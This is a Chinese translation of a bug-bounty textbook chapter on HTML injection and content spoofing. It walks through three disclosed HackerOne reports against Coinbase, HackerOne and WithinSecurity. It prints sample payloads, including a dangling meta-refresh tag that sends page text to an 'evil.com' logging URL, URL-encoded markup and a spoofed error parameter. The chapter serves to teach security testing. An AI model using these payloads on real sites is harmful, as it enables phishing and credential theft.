

# 五、HTML 注入

> 作者：Peter Yaworski

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 描述

超文本标记语言（HTML）注入有时也被称为虚拟污染。 这实际上是一个由站点造成的攻击，该站点允许恶意用户向其 Web 页面注入 HTML，并且没有合理处理用户输入。 换句话说，HTML 注入漏洞是由接收 HTML 引起的，通常通过一些之后会呈现在页面的表单输入。 这个漏洞是独立的，不同于注入 Javascript，VBscript 等。

由于 HTML 是用于定义网页结构的语言，如果攻击者可以注入 HTML，它们基本上可以改变浏览器呈现的内容。 有时，这可能会导致页面外观的完全改变，或在其他情况下，创建表单来欺骗用户，例如，如果你可以注入 HTML，你也许能够将 `<form>` 标签添加到页面，要求用户重新输入他们的用户名和密码。 然而，当提交此表单时，它实际上将信息发送给攻击者。

## 示例

### 1\. Coinbase 评论

难度：低

URL：`coinbase.com/apps`

报告链接：`https://hackerone.com/reports/104543`

报告日期：2015.12.10

奖金：$200

描述：

对于此漏洞，报告者识别出 Coinbase 在呈现文本时，实际上在解码 URI 的编码值。 对于那些不熟悉它的人（我在写这篇文章的时候），URI 中的字符是保留的或未保留的。 根据维基百科，保留字是有时有特殊意义的字符，如`/`和`&`。 未保留的字符是没有任何特殊意义的字符，通常只是字母。

因此，当字符被 URI 编码时，它将按照 ASCII 转换为其字节值，并以百分号（`%`）开头。 所以，`/`变成`%2F`，`&`成为`%26`。 另外，ASCII 是一种在互联网上最常见的编码，直到 UTF-8 出现，它是另一种编码类型。 现在，回到我们的例子，如果攻击者输入 HTML：

```html
<h1>This is a test</h1>
```

Coinbase 实际上会将其渲染为纯文本，就像你上面看到的那样。但是，如果用户提交了 URL 编码字符，像这样：

```
%3C%68%31%3E%54%68%69%73%20%69%73%20%61%20%74%65%73%74%3C%2F%68%31%3E
```

Coinbase 实际上会解码该字符串，并渲染相应的字符，像这样：

```
This is a test
```

使用它，报告者演示了如何提交带有用户名和密码字段的 HTML 表单，Coinbase 会渲染他。如果这个用户是恶意的，Coinbase 就会渲染一个表单，它将值提交给恶意网站来捕获凭据（假设人们填充并提交了表单）。

> 重要结论

> 当你测试一个站点时，要检查它如何处理不同类型的输入，包括纯文本和编码文本。特别要注意一些接受 URI 编码值，例如`%2f`，并渲染其解码值的站点，这里是`/`。虽然我们不知道这个例子中，黑客在想什么，它们可能尝试了 URI 编码限制字符，并注意到 Coinbase 会解码它们。之后他们更一步 URL 编码了所有字符。

> <http://quick-encoder.com/url> 是一个不错的 URL 编码器。你在使用时会注意到，它告诉你非限制字符不需要编码，并且提供了编码 URL 安全字符的选项。这就是获取用于 COinbase 的相同编码字符串的方式。

### 2\. HackerOne 无意识 HTML 包含

难度：中

URL：hackerone.com

报告链接：<https://hackerone.com/reports/112935>

报告日期：2016.1.26

奖金：$500

描述：

在读完 Yahoo XSS 的描述（第七章示例四），我对文本编辑器中的 HTML 渲染测试产生了兴趣。这包含玩转 HackerOne 的 Markdown 编辑器，在图像标签中输入一些类似`ismap= "yyy=xxx"`和`"'test"`的东西。这样做的时候，我注意到，编辑器会在双引号里面包含一个单引号 - 这叫做悬置引号。

那个时候，我并没有真正理解它的含义。我知道如果你在某个地方注入另一个单引号，两个引号就会被浏览器一起解析，浏览器会将它们之间的内容视为一个 HTML 元素，例如：

```html
<h1>This is a test</h1><p class="some class">some content</p>'
```

使用这个例子，如果你打算注入一个 Meta 标签：

```html
<meta http-equiv="refresh" content='0; url=https://evil.com/log.php?text=
```

浏览器会提交两个引号之间的任何东西。现在，结果是，这个已经在 HackerOne 的 [#110578](https://hackerone.com/reports/110578) 报告中由 [intidc](https://hackerone.com/intidc) 公开。看到它公开之后，我有一点失望。

根据 HackerOne，它们依赖于 Redcarpet（一个用于 Markdown 处理的 Ruby 库）的实现，来转义任何 Markdown 输入的 HTML 输出，随后它会通过 React 组件的`dangerouslySetInnerHTML`直接传递给 HTML DOM（也就是页面）。此外，React 是一个 JavaScript 库，可用于动态更新 Web 页面的内容，而不需要重新加载页面。

DOM 指代用于有效 HTML 以及 格式良好的 XML 的应用程序接口。本质上，根据维基百科，DOM 是跨平台并且语言无关的约定，用于展示 HTML、XHTML 和 XMl 中的对象，并与其交互。

在 HackerOne 的实现中，它们并没有合理转义 HTML 输出，这会导致潜在的漏洞。现在，也就是说，查看披露，我觉得我应该测试一下心得代码。我返回并测试了这个：

```md
[test](http://www.torontowebsitedeveloper.com "test ismap="alert xss" yyy="test"\ ")
```

它会变成

```html
<a title="'test" ismap="alert xss" yyy="test" &#39; ref="http://www.toronotwebsi\ tedeveloper.com">test</a>
```

你可以看到，我能够将一堆 HTML 注入到`<a>`标签中。所以，HackerOne 回滚了该修复版本，并重新开始转义单引号了。

> 重要结论

> 仅仅是代码被更新了，并不意味着一些东西修复了，而是还要测试一下。当部署了变更之后，同时意味着新的代码也可能存在漏洞。

> 此外，如果你觉得有什么不对，一定要深入挖掘。我知道一开始的尾后引号可能是个问题，但是我不知道如何利用它，所以我停止了。我本应该继续的。我实际上通过阅读 XSS Jigsaw 的 <blog.innerht.ml> 了解了 Meta 刷新利用（请见“资源”一张），但是这是后事了。

### 3\. WithinSecurity 内容伪造

难度：低

URL：`withinsecurity.com/wp-login.php`

报告链接：`https://hackerone.com/reports/111094`

报告日期：2015.1.16

奖金：$250

描述：

虽然内容伪造实际上和 HTML 注入是不同的漏洞，我也将其包含在这里，因为它们拥有相似的本质，攻击者让一个站点渲染它们选择的内容。

WithinSecurity 构建在 WordPress 平台之上，它包含登录页面`withinsecurity.com/wp-login.php`（这个站点已经合并到了 HackerOne 的核心平台中）。攻击者注意到了在登录过程中，如果发生了错误，WithinSecurity 就会渲染`access_denied`，同时对应 URL 中的`error`参数：

```
https://withinsecurity.com/wp-login.php?error=access_denied
```

注意到了这个，攻击者尝试修改`error`参数，并发现无论参数传递了什么值，都会被站点渲染为错误信息的一部分，并展示给用户。这里是所用的示例：

```
https://withinsecurity.com/wp-login.php?error=Your%20account%20has%20%hacked
```



WithinSecurity 内容伪造

这里的关键是注意到 URL 中的参数在页面中渲染。虽然他们没有解释，我可以假设攻击者注意到了`access_denied`展示在了页面上，但是也包含在 URL 中。这里他们也报告了，漏洞也可以由一个简单的测试，修改`access_denied`参数来找到。

> 重要结论

> 时刻关注传递并且渲染为站点内容的 URL 参数。他们可能就是攻击者的机会，用于欺骗受害者来执行一些恶意动作。

## 总结

HTML 注入向站点和开发者展示了漏洞，因为他可以用于误导用户，并且欺骗它们来提交一些敏感信息，或者浏览恶意网站。就像钓鱼攻击那样。

发现这些漏洞并不是通过仅仅提交 HTML，而是弄清楚站点如何渲染你的输入文本，像是 URI 编码的字符。而且，虽然内容伪造并不和 HTML 注入完全一样，它也是类似的，因为它涉及让一些输入在 HTML 页面中反映给受害者。攻击者应该仔细寻找机会，来操纵 URL 参数，并让它们在站点上渲染。
